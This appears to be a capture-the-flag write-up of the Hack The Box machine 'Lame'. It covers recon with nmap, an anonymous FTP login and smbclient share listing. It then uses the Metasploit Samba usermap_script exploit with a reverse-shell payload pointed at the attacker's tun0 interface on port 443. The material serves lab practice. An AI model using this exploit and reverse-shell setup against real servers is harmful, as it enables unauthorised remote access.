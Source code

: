 # Lame



<figure><img src="../../../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

### Recon

How many of the nmap top 1000 TCP ports are open on the remote host?

<figure><img src="../../../../.gitbook/assets/image (106).png" alt=""><figcaption><p>4 Ports Open</p></figcaption></figure>

i will see the port open FTP - 21 with \
login Anonymous \
and \
Password Anonymous

```bash
ftp 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

but can't expliot ftp  come i will try expliot using smb

{% hint style="success" %}
With Passweord Protected OFF
{% endhint %}

```
smbclient -L 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```bash
exploit/multi/samba/usermap_script
set payload cmd/unix/reverse
set lhost tun0
set lport 443
```

<figure><img src="../../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

Root Flag

<figure><img src="../../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

User Flag

<figure><img src="../../../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

### Exploits Used

**msfconsole**

```
exploit/multi/samba/usermap_script
```

### Tools Used

* Nmap
* smbclient
* nc

